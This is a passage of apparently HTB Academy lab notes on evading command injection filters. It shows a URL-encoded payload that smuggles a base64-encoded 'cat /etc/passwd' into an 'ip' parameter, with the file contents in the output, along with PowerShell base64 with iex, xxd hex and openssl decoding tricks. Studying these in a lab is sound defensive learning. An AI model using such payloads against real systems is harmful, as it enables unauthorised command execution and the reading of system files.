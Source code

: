 **Successful Base64 Injection:**
```http
# Replace spaces with appropriate characters
ip=127.0.0.1%0abash<<<$(base64%09-d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

# Expected result:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

### Base64 Encoding (Windows)

**Step 1: Encode String in PowerShell**
```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
```

**Cross-Platform Encoding (Linux to Windows):**
```bash
# Convert utf-8 to utf-16 before base64 encoding
kabaneridev@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
dwBoAG8AYQBtAGkA
```

**Step 2: Decode and Execute**
```powershell
# Decode and execute with Invoke-Expression
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

**Testing:**
```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
21y4d
```

### Alternative Encoding Methods

**Hex Encoding (xxd):**
```bash
# Encode to hex
echo -n 'whoami' | xxd -p
77686f616d69

# Decode and execute
bash<<<$(xxd -r -p<<<77686f616d69)
```

**OpenSSL Base64 (Alternative):**
```bash
# If base64 command is filtered, use openssl
bash<<<$(openssl base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

---